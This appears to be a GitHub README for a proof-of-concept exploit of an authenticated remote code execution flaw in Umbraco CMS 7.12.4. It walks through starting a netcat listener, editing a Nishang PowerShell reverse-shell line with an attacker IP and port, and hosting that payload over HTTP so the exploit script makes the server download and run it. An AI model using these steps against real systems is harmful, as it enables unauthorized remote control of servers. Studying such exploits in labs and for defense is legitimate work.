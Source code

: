 # Umbraco CMS 7.12.4 RCE POC / Reverse Shell

## Overview
This repository contains a Proof-of-Concept (PoC) exploit for an authenticated Remote Code Execution (RCE) vulnerability in Umbraco CMS 7.12.4. 

This exploit, inspired by the original PoC (https://www.exploit-db.com/exploits/46153), leverages a vulnerable XSLT processor to execute arbitrary commands on the server via authenticated access.

The provided script has been modified to download and execute a PowerShell script, such as Nishang's Invoke-PowerShellTcp.ps1 (https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1), which spawns a reverse shell.

## Requirements
Step 1: Clone the Repository

Step 2: Install Dependencies and ensure you have Python 3 installed:
```
pip install requests beautifulsoup4
```

## Usage
Step 1: Open a listening port. For example:
```
nc -vlnp 9090
```

Step 2: Edit the bottom line of the Nishang Invoke-PowerShellTcp.ps1 script to reflect your attacking machine's IP address and listening port. For example:
```
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.12.6 -Port 9090
```

Step 3: Start a simple HTTP server to host the Nishang script in the same directory where Invoke-PowerShellTcp.ps1 is located. For example:
```
python3 -m http.server 80
```
Step 4: Modify lines 30, 35, 36, 37 in exploit.py accordingly to match your setup (i.e., http server address, login, password, host)

Step 5: Run exploit.py

## Reference
Original POC: https://www.exploit-db.com/exploits/46153

nishang: https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1

